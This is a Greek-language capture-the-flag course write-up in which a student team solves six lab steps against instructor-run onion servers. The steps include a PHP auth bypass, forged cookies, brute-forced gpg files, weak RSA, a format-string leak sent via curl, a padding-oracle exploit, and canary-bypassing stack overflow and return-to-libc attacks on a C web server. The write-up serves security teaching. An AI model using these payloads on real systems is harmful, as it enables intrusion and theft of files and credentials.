



# 2022 Project 2


Ερωτήσεις:

1. Πού βρίσκεται ο Γιώργος;
1. Τι βρήκε ο Γιώργος;
1. Τι ώρα είναι στο "Plan X";
1. Πού βρίσκονται τα αρχεία του "Plan X";
1. Ποια είναι τα results του "Plan Y";
1. Ποιο είναι το code του "Plan Z";


#### Παρατηρήσεις

- Οι ίδιες ομάδες με την εργασία 1
- Εγγραφή στο github: https://classroom.github.com/a/HTr3OtgA

- Στο τελος του καθε βηματος θα βρισκεται ενα flag με prefix "FLAG={". Για παραδειγμα "**FLAG={ThisIsAFlag}**".
  **Αν το flag δεν εχει το παραπανω format, δεν εχετε τελειωσει ακομα το βημα** (μην στέλνετε claims χωρίς το flag).
- Μόλις ολοκληρώσετε κάθε βήμα στέλνετε claim στο ys13@chatzi.org


- Για τα βήματα 3-6 απαιτείται να γράψετε ένα πρόγραμμα που να αυτοματοποιεί την εύρεση της λύσης.
  Μπορείτε να χρησιμοποιήσετε ό,τι γλώσσα προγραμματισμού θέλετε, αλλά θα πρέπει να μπορώ να το τρέξω
  σε Ubuntu 20.04 χρησιμοποιώντας software που είναι διαθέσιμο στο Ubuntu. Θα πρέπει επίσης
  να φτιάξετε ένα script `run.sh` που εκτελεί το πρόγραμμα με ό,τι παραμέτρους χρειάζονται.
- Επίσης γράφετε report στο README.md με τα βήματα που ακολουθήσατε, και το κάνετε commit μαζί με οποιοδήποτε κώδικα χρησιμοποιήσατε
- Βαθμολογία
    - Η δυσκολία αυξάνεται, ιδιαίτερα στα βήματα 3-6.
    - Για ό,τι δεν ολοκληρώσετε περιγράψτε (και υλοποιήστε στο πρόγραμμα) την πρόοδό σας και πώς θα μπορούσατε να συνεχίσετε.
    - Με τα πρώτα 3 βήματα παίρνετε 5 στο μάθημα (αν έχετε πάει καλά στην εργασία 1)
    - Με τα 3-6 φτάνετε μέχρι το 10 (δεν υπάρχει γραπτή εξέταση)
    - Για τους μεταπτυχιακούς τα 3-6 είναι προαιρετικά. ΔΕΝ αντικαθιστούν το project
     (αλλά μπορούν να λειτουργήσουν προσθετικά στο βαθμό της εργασίας 1)
- Timeline
    - Τις πρώτες 10 μέρες δεν υπάρχου hints.
    - 24/6: αρχίζουν τα hints για τα βήματα 1,2
    - 30/6: deadline για τα βήματα 1,2
    - Για τα βήματα 3-6 δίνονται hints μόνο σε όσους ζητήσουν
    - 14/7: deadline για τα βήματα 3-6
- Οσοι απαντάνε γρήγορα έχουν bonus και μπαίνουν στο HoF


# Απαντήσεις

## Ερώτημα 1

Αρχικά επισκεφτήκαμε το .onion link το οποίο είχε πάνω της η φωτογραφία με το σπασμένο τηλέφωνο
http://2bx6yarg76ryzjdpegl5l76skdlb4vvxwjxpipq4nhz3xnjjh3jo6qyd.onion/

Μετά από έναν απλό έλεγχο της ιστοσελίδας, μέσω του inspect, είδαμε ένα χρήσιμο λινκ το οποίο περιέγραφε τρόπους για
την προστασία ιστοσελίδων.

https://blog.0day.rocks/securing-a-web-hidden-service-89d935ba1c1d

Στην συνέχεια αφού διαβάσαμε το άρθρο διαπιστώσαμε ότι η ιστοσελίδα δεν είχε απενεργοποιημένo τo server-info 
page από το οποίο μπορούσαμε να εξάγουμε πολλές πληροφορίες.
Aπό το configuration λοιπόν ανακαλύψαμε έναν νέο σύνδεσμο ο οποίος μας κατεύθυνε στο **YS13's personal site**

**Link:** http://flffeyo7q6zllfse2sgwh7i5b5apn73g6upedyihqvaarhq5wrkkn7ad.onion/

Στην σελίδα αυτή λοιπόν παρατηρούμε ένα input box στο οποίο δίνοντας ένα τυχαίο input βλέπουμε η σελίδα να μας ανακατευθύνει στον παρακάτω σύνεδεσμο:

http://flffeyo7q6zllfse2sgwh7i5b5apn73g6upedyihqvaarhq5wrkkn7ad.onion/access.php?password=test 

Παρατηρόντας όμως το Configuration που βρήκαμε προηγουμένως είδαμε ότι επιτρέπεται η εμφάνιση του source code
στα αρχεία .phps 

```
<FilesMatch ".+\.phps$">
    SetHandler application/x-httpd-php-source
</FilesMatch>
```
Αντικαθιστόντας λοιπόν το προηγούμενο λινκ με http://flffeyo7q6zllfse2sgwh7i5b5apn73g6upedyihqvaarhq5wrkkn7ad.onion/access.phps μας επέτρεψε πλέον να δούμε τον php κώδικα.

Aκολουθήσαμε τις οδηγίες που είχε σε σχόλια ο κώδικας και βρήκαμε ότι ο ζητούμενος αριθμός είναι ο **1337** .
Περάσαμε λοιπόν ως user το 1337sss (τα 3 τελευταία s για να συμπληρώσουμε το απαιτούμενο μέγεθος) και ως password δώσαμε password[]='' το οποίο επιστρέφει 0 στην strcmp.

Εν τέλη το link διαμορφώνεται λοιπόν ως εξής:

http://flffeyo7q6zllfse2sgwh7i5b5apn73g6upedyihqvaarhq5wrkkn7ad.onion/access.php?user=1337sss&password[]=%27%27

Μας εμφανίστηκε στην συνέχεια αφού περάσαμε τον έλεγχο ένα μήνυμα που μας έλεγε να επισκεφτούμε το :
http://flffeyo7q6zllfse2sgwh7i5b5apn73g6upedyihqvaarhq5wrkkn7ad.onion/blogposts7589109238/

Αφού εξερευνήσαμε λίγο την σελίδα βρήκαμε το /post3.html όπου αναφερόταν σε ένα visitor number

```
i left the phone backup in the standard secret backup location in fixers that only the winner visitor #834472 will find... 
```
Θυμόμασταν όμως ότι στην αρχική σελίδα **YS13 Fixers** γινόταν και εκεί αναφορά στο visitor number.. 
Ανοίγοντας λοιπόν το console είδαμε ότι παίρνουμε ως cookie το παρακάτω: 
```
"Visitor=MjA0OmZjNTZkYmM2ZDQ2NTJiMzE1Yjg2YjcxYzhkNjg4YzFjY2RlYTljNWYxZmQwNzc2M2QyNjU5ZmRlMmUyZmM0OWE%3D"
```

Δοκιμάσαμε να κάνουμε Base64 decode το value του Visitor και πήραμε το ακόλουθο string

```
204:fc56dbc6d4652b315b86b71c8d688c1ccdea9c5f1fd07763d2659fde2e2fc49a7
```
Ύστερα από δοκιμές βρήκαμε ότι το δεύτερο μέρος του decoded string αντιστοιχεί στο sha256(204).
Το επόμενο βήμα λοιπόν ήταν να υπολογίσουμε το sha256(834472) για το δικό μας visitor number. H τιμή του είναι η ακόλουθη:
```
27c3af7ef2bee1af527dbf8c05b3db6cca63589941b8d49572aa64b5cd8c5b97
```
* Επομένως το string που πρέπει να κάνουμε Base64 Encode είναι το:
```
834472:27c3af7ef2bee1af527dbf8c05b3db6cca63589941b8d49572aa64b5cd8c5b97

Base64 Encoded: ODM0NDcyOjI3YzNhZjdlZjJiZWUxYWY1MjdkYmY4YzA1YjNkYjZjY2E2MzU4OTk0MWI4ZDQ5NTcyYWE2NGI1Y2Q4YzViOTc=
```
* Εισάγαμε λοιπόν το encoded string ως cookie value και βλέπουμε το ακόλουθο μήνυμα στην αρχική σελίδα
```
Congrats user #834472!! Check directory /sekritbackup7547 for latest news...
```

Το directory /sekritbackup7547 μας δίνει τα 3 αρχεία : 
* notes.txt
* firefox.log.gz.gpg
* signal.log.gpg

Mε βάση το notes.txt αρχείο καταλαβαίνουμε ότι χρειαζόμαστε μία ημερομηνία και ένα secret string. 
Για το secret string οδηγηθήκαμε στην σελίδα https://ropsten.etherscan.io/ όπως ανέφερε το αρχείο και ψάχνοντας το hash που μας δόθηκε βρήκαμε ότι είχε γίνει ένα transaction με input data το bigtent. Επομένως και αυτό χρησιμοποιήσαμε.

Για την ημερομηνία, παράξαμε όλες τις πιθανές ημερομηνίες τόσο για την χρονολογία του 2022 όσο και για την χρονολογία 2021 με βάση το format που ορίζει το notes.txt . Tα αρχεία με τα script βρίσκονται στο φάκελο solutions.

Αρχικά παράγουμε όλα τα πιθανά sha256 με την βοήθεια του generate_sha.sh 
```
./generate_sha.sh secret_string
```
Τα αποτελέσματα αποθηκεύονται στον τρέχον φάκελο στο αρχείο keys και στην συνέχεια με την εκτέλεση του 
brute.sh γίνονται parse και δοκιμάζονται στην αποκρυπτογράφηση των gpg αρχείων.

```
./brute.sh keys signal.log.gpg
./brute.sh keys firefox.log.gz.gpg
```
Aφότου ολοκληρωθεί το script βλέπουμε στον φάκελο τα 2 αποκρυπτογραφημένα πλέον αρχεία
* firefox.log
* signal.log

Τρέχοντας την εντολή 
``` 
wc -l firefox.log 
```
Παρατηρούμε ότι το αρχείο έχει 11215769 γραμμές και αν το ανοίξουμε θα διαπιστώσουμε ότι "σχεδον" όλες 
περιέχουν το string "https://en.wikipedia.org/wiki/The_Conversation\"

Σκεφτήκαμε λοιπόν με την βοήθεια της εντολής grep να δούμε αν υπάρχει κάποιο διαφορετικό string.
```
grep -v "https://en.wikipedia.org/wiki/The_Conversation" firefox.log
```
Και τελικά είχαμε δίκιο! Μας επέστρεψε ένα github link https://github.com/asn-d6/tor .
Έχοντας λοιπόν το github repo και το commit hash από το signal.log αρχείο πήγαμε να δούμε τι βρίσκεται στο συγκεκριμένο commit.
Εκεί περιγράφεται ένα πρόβλημα γνωστό και ως weak RSA.

Mε την βοήθεια του https://www.mathpapa.com/factoring-calculator/ βρίσκουμε τα prime factors του Ν

Τα οποία είναι: 
```
127670779 = 7963(p) * 16033(q)
```
Στην συνέχεια υπολογίζουμε το φ 
```
φ=7962*16032
```
Και με την βοήθεια του inverse mod calculator το d
https://www.123calculus.com/en/modular-inverse-page-1-25-145.html
όπου a = 7 και n = φ (από το προηγούμενο βήμα).

Επομένως έχουμε:
* p = 7963
* q = 16033
* φ = 127646784
* d = 18235255
* n = 127670779

Μπορούμε πλέον λοιπόν να βρούμε τις συντεταγμένες λύνοντας ως προς x και y αντίστοιχα
```
E(x) = 32959265
E(y) = 47487400

x = 133710
y = 74198

```
Προκύπτει εν τέλη το λινκ http://aqwlvm4ms72zriryeunpo3uk7myqjvatba4ikl3wy6etdrrblbezlfqd.onion/7419813371074198133710.txt στο οποίο και παίρνουμε το  **FLAG={GilmansPointKilimanjaro}** .

## Ερώτημα 2

Στο προηγούμενο λινκ παρατηρούμε ότι μας δίνεται άλλο ένα directory στο οποίο βλέπουμε μία φωτογραφία από το εξώφυλλο μίας εφημερίδας.
Στο κείμενο αναφέρεται ότι βρέθηκε ένα βιβλίο σχετικά με history of version control systems καθώς και ένα usb με περιεχόμενα
το sss491020.tar.gz αρχείο. Επομένως σκεφτήκαμε να δοκιμάσουμε μήπως έχουμε πρόσβαση στο αρχείο μέσω του παρακάτω λινκ:
http://aqwlvm4ms72zriryeunpo3uk7myqjvatba4ikl3wy6etdrrblbezlfqd.onion/sss492010.tar.gz
Έτσι και έγινε! Μπορέσαμε να κατεβάσουμε το sss492010.tar.gz .
Αφού το κάναμε extract είδαμε ότι μέσα περιέχει ένα άδειο sss directory το οποίο είναι και git project.

Αμέσως συνειδητοποιήσαμε ότι πρέπει να ψάξουμε για τυχόν παλαιότερα commits καθώς και το history του project.
Με την βοήθεια του git graph που εγκαταστήσαμε στο visual studio code μπορέσαμε να εξάγουμε όλες τις απαραίτητες πληροφορίες που θέλαμε μέχρι και να κάνουμε restore κάποια από τα αρχεία τα οποία είχαν γίνει παλαιότερα push και διαγράφτηκαν.
Είχαμε πλέον στην διάθεση μας τα αρχεία 
* sss.py
* polywork.py
* notes.txt
Από το notes.txt κατάλαβαμε ότι πρόκειται για ένα πολύ γνωστό αλγόριθμο κρυπτογράφησης το Shamir's Secret Sharing . 

Χρειαζόμαστε λοιπόν πλέον τα shares για να βρούμε το secret μέσω της polywork.
Διαπιστώσαμε ότι υπήρχαν κάποια tags τα οποία ίσως μας έδιναν χρήσιμες πληροφορίες..
Τρέχοντας της εντολή
```
git tag -l -n99
```
Κάναμε list 99 γραμμές από το message του tag και βρήκαμε τα 3 shares...
Βάζοντας τα στην συνάρτηση interpolate_polynomial που βρίσκεται στο αρχείο polywork.py 
```
x = [1, 2, 3]
y = [5007965719154398295316829646509289701874861709891808846734792385015541826201, 20129353592886270223448727591627806607524309415930743719526720763604786378070, 45364163628598845685938428155401936384627058279694842643445501229807995000756]

print('Reconstructed: ', int.to_bytes(interpolate_polynomial(x, y)[0], 30, byteorder="big"))

```

καταφέραμε να κάνουμε reconstruct το message.
Eν τέλη έχουμε λοιπόν το original μήνυμα και το ζητούμενο flag:
```
Reconstructed:  b'\x00\x00FLAG={TimeTravelPossible!!?}'
```

## Ερώτημα 3

Από το 1ο Ερώτημα είδαμε στην σελίδα http://flffeyo7q6zllfse2sgwh7i5b5apn73g6upedyihqvaarhq5wrkkn7ad.onion/blogposts7589109238/blogposts/diary2.html να γίνεται αναφορά στον secure Plan X server ο οποίος τρέχει με βάση τον pico server **github:chatziko/pico** και βρίσκεται στο ακόλουθο .onion: 
http://xtfbiszfeilgi672ted7hmuq5v7v3zbitdrzvveg2qvtz4ar5jndnxad.onion

Για να προχωρήσουμε στα περιέχομενα της σελίδας όμως μας ζητείται να κάνουμε login με username και κωδικό.

Σκεφτήκαμε λοιπόν να πάμε στο github repo και αφού κάνουμε clone να στήσουμε τοπικά τον server..
Στην προσπάθεια λοιπόν να κάνουμε make μας εμφανίστηκε το εξής warning από τον compiler:
```
warning: format not a string literal and no format arguments [-Wformat-security] 
printf(auth_username);
```

Υπάρχει λοιπόν δήλωση της μεταβλητής χωρίς να υπάρχει δήλωση του τύπου της στην printf.
Το συγκεκριμένο vulnerability ονομάζεται Format String Attack και μέσω αυτού μπορούμε να τυπώσουμε τιμές που βρίσκονται στην στοίβα. Με την χρήση του %x ως input στην printf μετακινούμε τον stack pointer μπροστά κατά μία θέση και με την χρήση του %s προσπαθούμε να διαβάσουμε τα δεδομένα του address στο οποίο δείχνει ο stack pointer. Eπομένως το attack μας θα βασιστεί στην λογική να μετακινήσουμε τόσες φορές όσες πρέπει τον stack pointer έτσι ώστε να πάρουμε το
```
<username>:<password>
``` 
που είναι αποθηκευμένο στην στοίβα.
Ύστερα από δοκιμές καταφέραμε με input %x%x%x%x%x%x%s να πάρουμε στο Response 
```admin:0fba1b57781369f0dcfb5b55e61764fd```

Επειδή όμως ο κωδικός είναι md5 encrypted με την βοήθεια του https://www.md5online.org/md5-decrypt.html πήραμε τον plain, ο οποίος ήταν **hammertime** .
Συνδεθήκαμε λοιπόν στο site με τα credentials που βρήκαμε και αντικρίσαμε το deface μας από την 1η εργασία και μέσω του **Catch Me** button βρήκαμε και το πολυπόθητο flag :) 

```
FLAG={Stop! Hammer Time}
```


## Ερώτημα 4

Το pattern όπου ο χρήστης δίνει ένα AES cipher text και ο server του απαντάει εάν το cipher text είναι έγκυρο ή μη έγκυρο, τότε το pattern αυτό είναι ευπαθές και ονομάζεται Padding Oracle Attack στην βιβλιογραφία.

Με την τροποποίηση ενός python script από το github έτσι ώστε τα ερωτήματα να περνάνε μέσα απο το tor, καταλήξαμε να πάρουμε τα αποτελέσματα του cipher text τα οποία ήταν το FLAG "/secet/x".


> Σημείωση: Για κάποιο λόγο όταν τρέχουμε το python script μέσα από ένα bash script, σταματάει η εκτέλεση μετά απο ένα σημείο. Ο μόνος τρόπος για να εκτελεστεί επιτυχώς το script μας είναι να τρέξει ο χρήστης χειροκίνητα όπως παρακάτω (αφού πρώτα έχει εκτελεστεί το run.sh το οποίο θα εγκαταστήσει τα python requirements):

```bash
source four/venv/activate
four/venv/bin/python3 four/exploit4local.py -c 4f9886291b512f70611cde3188cdbc1b51d17da5ac4f8ea7af3ab8f10543f09e -l 16 --host localhost:8000 -u /check_secret.html?id= -v --error "invalid padding" --post 'secret=' --method POST
```

Αντίστοιχα για το tor:

```bash

source four/venv/activate
four/venv/bin/python3 four/exploit4tor.py -c ad8bb176da1f40a98385ad0ae9777c3208b78ae57a7fec84092b2cbbaf2ab1c0  -l 16  --host localhost:8000 -u /check_secret.html?id= -v --error "invalid padding" --post 'secret=' --method POST
```


## Ερώτημα 5

#### Βήμα 0: Εντοπισμός και Κατανόηση στόχου

Παρατηρώντας την συνάρτηση post_param(), παρατηρούμε ότι υπάρχει η δυνατότητα buffer overflow στο buffer post_data, διότι η μεταβλητή payload_size μπορεί να τροποιηθεί απο το header με 'Content-Length: 0' σε μέγεθος 0. Με αυτόν τον τρόπο θα μπορούμε να γράψουμε πάνω στο return address της post_param().

Πριν ξεκινήσουμε την επίθεση, παρατηρούμε απο το Makefile του pico ότι δεν υπάρχει η παράμετρος που απενεργοποιεί το stack execution. Επίσης είναι ενεργοποιημένοι οι stack protectors όπως το canary το οποίο θα πρέπει να το μάθουμε προκειμένου να εκτελέσουμε την επίθεση. Για να διαεπεράσουμε το απενεργοποιημένο stack execution θα μπορούσαμε να δ]γράψουμε στο return address, τη διεύθυνση ενός function call το οποίο βρίσκεται στο code segment. Δεδομένου ότι έχουμε σαν στόχο να αποκτήσουμε πρόσβαση στο αρχείο **/secet/x** επιλέξαμε την κλήση της **send_file()** η οποία πραγματοποιείται στο σώμα της συνάρτησης serve_index().

Για να εκτλέσουμε την επίθεση, θα πρέπει να γνωρίζουμε:

* canary
* post_data buffer address
* call send_file assembly instruction address 

#### Βήμα 1: Βρίσκουμε το canary μέσω gdb στο local pico build

Στο local pico: Με χρήση gdb βρίσκουμε το canary και προσπαθούμε να φτάσουμε σε

gdb στο ./server

Για να ακολουθεί τα παιδιά ο gdb ενεργοποιούμε child follow fork mode με την εκτέλεση της εντολής: 

`set follow-fork-mode child`


Αφου βάλουμε breakpoint στην check_auth(), παρατηρώντας την assebly της check_auth( βλέπουμε την τριπλέτα εντολών που χαρακτηρίζουν το canary κατα το function call μιας συνάρτησης.

```
mov %gs:0x14,%eax
mov %eax, -0xc(%ebp)
xor %eax,%eax
```


Με βάση τον %ebp βρίσκουμε τη διεύθυνση του canary.

```

(gdb) p $ebp
$2 = (void *) 0xffffd698
(gdb) p $ebp - 12
$3 = (void *) 0xffffd68c
(gdb) x/4bx 0xffffd68c
0xffffd68c:     0x00    0x87    0xe0    0xd8
(gdb) 
```


Άρα το canary είναι το `0x00    0x87    0xe0    0xd8`

> Το γεγονός ότι το canary που βρήκαμε τελειώνει σε 00, αυξάνει τις πιθανότητες να έχουμε βρει το σωστό canary, διότι ένα έγκυρο canary τελειώνει σε 00.


#### Βήμα 2: Προσπαθούμε να φτάσουμε στο canary μέσω της vulnerble printf στο local pico build


Διαβάζοντας το pdf [1] καταλαβαίνουμε ότι εάν βάζουμε %x στην printf() χωρίς να υπάρχουν ανίστοιχα ορίσματα που να αντιστοιχούν στα %x, τότε η printf() θα εκτυπώνει τα περιεχόμενα που υπάρχουν ακριβώς πριν τη διεύθυνση του πρώτου ορίσματος της printf() που ειναι το Address Format String.

Για να πάρουμε τις διευθύνσεις πίσω απο την κλήση της printf, βάζουμε %x μέχρι να φτάσουμε στο canary που βρήκαμε στο προηγούμενο βήμα.
Με τη σωστή σειρά: `d8e08700`

```bash
curl -X POST \
    http://localhost:8000/check_secret.html  \
    -i \
    --user "%08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x :"
```

Αποτέλεσμα:
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Basic realm="Invalid user: 5790b310 0000009b 56561511 f7c18d80 00000000 578fb376 56564180 f7c18d80 00000000 5790b310 0000009c 00000000 00000001 5790b310 5790b3ab 5790b3ac 0000009b ffe5b268 f7ab0ff2 f7c18d80 00000000 00000000 00000000 f7ab0fd7 f7c16880 f7c18d80 d8e08700 f7c18d80 56563f04 ffe5b278 565610c2 "


#### Βήμα 3: Εύρεση διεύθυνσης του post_data buffer

O saved ebp, δηλαδή το περιεχόμενο του ebp της συνάρτησης check_auth

θα έχει σταθερή απόσταση από το post_data buffer address. Αυτό ισχύει διότι
ο saved ebp της check_auth() και ο saved_ebp της post_param() είναι ο ίδιος,
αφού καλούνται απο την ίδια συνάρτηση.

Άρα  [saved_ebp] - [post_data buffer address] = Σταθερά

Αφού βρούμε τον saved_ebp και τη διεύθυνση του post_data buffer βρίσκουμε απόσταση **136**

Άρα βρήκαμε τη διεύθυνση του buffer στο τοπικό pico και άρα ισχύει ότι:

[saved_ebp] - 136 = [post_data buffer address] 

Για να βρούμε τη διεύθυνση του post_data buffer στο target pico, πρέπει πρώτα να βρούμε τον saved_ebp μέσω της vulnerable printf(). Τότε αρκεί να αφαιρέσουμε αυτόν τον αριθμό με το 136 και έτσι έχουμε τη διεύθυνση του post_data buffer.


#### Βήμα 4: Εύρεση διεύθυνσης του call send_file assembly instruction

Δεδομένου ότι το code segment είναι συνεχόμενο και δεν αλλάζει κατα την εκτέλεση του προγράμματος, μας αρκεί να βρούμε τη διεύθυνση μιας εντολής (την οποία θα γνωρίζουμε και στο target pico), τη διεύθυνση του call send_file (την οποία μπορύμε να βρούμε μέσω gdb) και να υπολογίσουμε την απόσταση μεταξύ αυτών των δύο εντολών. Αυτό εξασφαλίζει ότι η απόσταση αυτή των δύο συγκεκριμένων assembly εντολών, θα είναι ίδια και για το target pico για τον λόγο που αναφέραμε παραπάνω.

Η διεύθυνση μίας εντολής στην οποία μπορούμε να έχουμε πρόσβαση και στο target pico είναι το return address της συνάρτησης check_auth, το οποίο μπορούμε να βρούμε μέσω της vulnerable printf (με τρόπο που έχουμε ξανα-αναφέρει παραπάνω).

Αφού το return address στο local pico, βρίσκουμε και τη διεύθυνση της send_file στο local pico build μέσω gdb με εκτέλεση (print send_file) και βρίσκουμε τη διαφορά μεταξύ αυτών των δύο διευθύνσεων. Αναφέρουμε ξανά ότι, η απόσταση μεταξύ των δύο εντολών θα είναι η ίδια για το target pico build.


Βρίσκουμε

[send_file call address] - [check_auth return address] = 2196
=>
[send_file call address] = [check_auth return address] + 2196

#### Βήμα 5: Κατασκευή payload

Αφού γνωρίζουμε:

* canary
* post_data buffer address
* call send_file assembly instruction address 


Με χρήση του gdb παρακολουθούμε την εικόνα της μνήμης πρίν και μετά την αντιγραφή του payload στο post_data buffer.

Πριν την εκτέλεση της strcpy



Mετά την εκτέλεση της strcpy
```
(gdb) x/21xw post_data
0xffdb9a60:     0x6365732f      0x782f7465      0x3d3d3d3d      0x3d3d3d3d
0xffdb9a70:     0x3d3d3d3d      0x3d3d3d3d      0x3d3d3d3d      0x3d3d3d3d
0xffdb9a80:     0x3d3d3d3d      0x3d3d3d3d      0x3d3d3d3d      0x3d3d3d3d
0xffdb9a90:     0x3d3d3d3d      0xffdb9a60      0x3d3d3d3d      0x233c33d0
0xffdb9aa0:     0x3d3d3d3d      0x3d3d3d3d      0x3d3d3d3d      0x566081e6
0xffdb9ab0:     0xffdb9a60
```

Μετά την for loop
```
(gdb) x/21xw post_data
0xffdb9a60:     0x6365732f      0x782f7465      0x00000000      0x00000000
0xffdb9a70:     0x00000000      0x00000000      0x00000000      0x00000000
0xffdb9a80:     0x00000000      0x00000000      0xffdb9a60      0xffdb9ab4
0xffdb9a90:     0x00000000      0xffdb9a60      0x00000000      0x233c33d0
0xffdb9aa0:     0x00000000      0x00000000      0x00000000      0x566081e6
0xffdb9ab0:     0xffdb9a60
```

τότε μπορούμε να κατασκευάσουμε το payload με την παρακάτω μορφή



Ο λόγος για τον οποίο γράψαμε το post_data buffer address μετά τα 44 "3D"
είναι διότι το πρόγραμμα κάνει χρήση του buffer αμέσως μετά την κλήση της strcpy και άρα δεν θα εμφανιστεί segmentation fault για χρήση μνήμης που δεν δικαιούται το πρόγραμμα, καθώς επίσης είναι η χρήσιμη η εκτέλεση της for loop που ακολουθεί την κλήση της strcpy, διότι θα αντικαταστήσει τα "3D" * 44 με μηδενικά το οποίο θα κάνει null terminate το string "/secet/x" που είναι και ο λόγος για τον οποίο επιλέξαμε να γράψουμε τον hex κωδικό "3D" διότι αντιστοιχεί στον ascii χαρακτήρα '='.

Αμέσως μετά το return address (κόκκινη περιοχή), γράφουμε το όρισμα της send_file, το οποίο θα είναι η διεύθυνση του string "/secet/x".

Επίσης, η for loop που εκτελείται αμέσως μετά την κλήση της strcpy(), διατρέχει όλο το αλφαριθμητικό post_data μέχρι να εμφανιστεί ο χαρακτήρας 0 (null). Για αυτό τον λόγο τοποθετήσαμε τα "00" * 4 στο τέλος του payload. Σε τοπική εκτέλεση του pico κατα τη δοκιμή του payload, όταν τύγχανε η διεύθυνση του buffer να περιέχει το "00" τότε ήταν αναμενόμενο να μην λειτουργεί το payload, καθώς θα σταμάταγε η strcpy να γράφει μέχρι το post_data_buffer address (πρώτη πράσινη περιοχή απο τα αριστερά προς τα δεξιά).

Τα αρχεία `five-target.sh` και `five-taget.py` υλοποιούν την επίθεση που αναλύσαμε παραπάνω.

Οι δοκιμές πραγματοποιήθηκαν σε ubuntu x86_64 docker container. Αξίζει να σημειωθεί ότι το offset που βρήκαμε για τη διεύθυνση του send_file instruction call διαφέρει και είναι φανερό αυτό στο αρχείο `five-local.py`

Για debugging με πολλά processes (χωρίς να επανεκκινούμε τoν pico server) κάναμε χρήση της επιλογής `set detach-on-fork off` στο gdb, και αλλάζαμε inferiors με τις εντολές `info inferiors`, `inferior 1`


## Ερώτημα 6


Διαβάζοντας το αρχείο `/secet/y`
```
Plan Z: troll humans who ask stupid questions (real fun).
I told them I need 7.5 million years to compute this XD

In the meanwhile I'm travelling through time trolling humans of the past.
Currently playing this clever dude using primitive hardware, he's good but the
next move is crushing...

1.e4 c6 2.d4 d5 3.Nc3 dxe4 4.Nxe4 Nd7 5.Ng5 Ngf6 6.Bd3 e6 7.N1f3 h6 8.Nxe6 Qe7 9.0-0 fxe6 10.Bg6+ Kd8 11.Bf4 b5 12.a4 Bb7 13.Re1 Nd5 14.Bg3 Kc8 15.axb5 cxb5 16.Qd3 Bc6 17.Bf5 exf5 18.Rxe7 Bxe7

PS. To reach me in the past use the code: FLAG={<next move><public IP of this machine>}
```

καταλάβαμε ότι οι κωδικοί αναφέρονται σε έναν αγώνα σκάκι Kasparov v. Depp Blue 1997. Με μία αναζήτηση βρήκαμε ότι η επόμενη κίνηση είναι η **c4**, άρα βρήκαμε το `<next move>` τμήμα.

Για να βρούμε το άλλο τμήμα που είναι η IP του μηχανήματος στο οποίο τρέχει ο pico server, έπρεπε να καλέσουμε την system() με όρισμα `"curl ifconfig.me"`.

Για να το πετύχουμε αυτό, θα επιχειρήσουμε ένα return to libc attack όπου θα χρησιμοποιήσουμε σαν βάση το exploit του προηγούμενου ερωτήματος, με τη διαφορά ότι αντί να καλούμε την send_file, θα καλέσουμε αυτή τη φορά την system.

- Ένας τρόπος να καλέσουμε την system ήταν να πάρουμε τη διεύθυνση της εντολής η οποία καλέι την system() παραπάνω στον κώδικα.

- Ένας άλλος τρόπος για να καλέσουμε την system() είναι χρησιμοποιώντας της διεύθυνση της system απο τη libc.


Εμείς επιλέξαμε τον 2ο τρόπο, όπου για να βρούμε τη διεύθυνση της system αρχικά έπρεπε να βρούμε πως θα συσχετίσουμε τη διεύθυνση της system στη libc με κάποια απο τα δεδομένα της στοίβας που μας επιστρέφει η vulnerable printf(). Απο τα δεδομένα της στοίβας, επιλέξαμε το `stack[27]`, δηλαδή τη διεύθυνση που βρίσκεται αμέσως μετά το canary με κατεύθυνση προς ebp. Ο λόγος που επιλέξαμε τη συγκεκριμένη διεύθυνση, είναι διότι παρατηρήσαμε ότι βρίσκεται σε μικρή απόσταση απο τη διεύθυνση της system και άρα πολύ πιθανόν να βρίσκεται μέσα στη libc. Έτσι, αφού βρήκαμε της απόσταση, αντικαταστήσαμε τη διεύθυνση της send_file απο το προηγούμενo ερώτημα με τη διεύθυνση της system η οποία υπολογίζεται απο το `(stack[27]-offset)`. Με αρκετές εκτελέσεις, παρατηρήσαμε ότι η απόσταση μεταξύ αυτών των διευθύνσεων παραμένει σταθερή το οποίο θα ισχύει και στο target pico server.

Tέλος γράψαμε τη διεύθυνση του post_data buffer το οποίο περιέχει την εντολή `"curl ifconfig.me"`.

Η απόσταση που είχαμε βρει στο τοπικό pico είναι 1746336 απο την πράξη `stack[27]-system_address` και 54976 για την διεύθυνση της exit με την πράξη `system_address-exit_address`.


Σε πρώτη φάση που κατασκευάσαμε το payload με την ίδια μορφή όπως στο **Ερώτημα 5**, μετά από αρκετές δοκιμές διαπιστώσαμε με την εκτέλεση `disas system` ότι η system πραγματοποιούσε εισαγωγές στην στοίβα, με αποτέλεσμα να γράφει πάνω στο `"curl ifconfig.me"` string literal και άρα η system δεν έβρισκε το `"curl ifconfig.me"` ως όρισμα που της είχα δώσει.

Όπως και στο ερώτημα 5, έτσι και στο ερώτημα 6 το offset άλλαζε ανά αρχιτεκτονική. Στα 32-bit συστήματα το offset για την system ήταν το 1685936, ενώ για τα 64-bit συστήματα όπως το local pico server 1746336 (γιατό παρατηρείται μία αλλαγή ως προς το offset μεταξύ των local και target scripts και στα δύο ερωτήματα).


Έτσι, τροποιήσαμε το explit της 5, έτσι ώστε η διεύθυνση του argument να μην είναι η διεύθυνση του buffer, αλλά μια διεύθυνση πάνω από το return address το οποίο θα εξασφάλιζε ότι δεν θα γράψει πάνω της η **system**. To exploit για το ερώτημα 6 μοιάζει με την παρακάτω εικόνα:



